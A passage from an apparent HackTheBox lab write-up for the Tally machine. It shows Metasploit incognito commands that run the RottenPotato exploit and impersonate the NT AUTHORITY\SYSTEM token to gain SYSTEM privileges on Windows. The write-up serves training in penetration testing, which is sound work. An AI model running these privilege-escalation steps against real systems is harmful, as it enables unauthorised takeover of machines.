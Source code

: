 Now we can load [Metasploit's incognito module](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/) and then run `rottenpotato.exe`

{% highlight bash %}
load incognito
execute -f rottenpotato.exe -Hc
list_tokens -u
{% endhighlight %}

![](/images/hackthebox-writeups/tally/msf-6.png)

As you can see we have the `SYSTEM` users impersonation token avaliable, so we can impersonate it with:

{% highlight bash %}
impersonate_token "NT AUTHORITY\\SYSTEM"
{% endhighlight %}

![](/images/hackthebox-writeups/tally/msf-7.png)
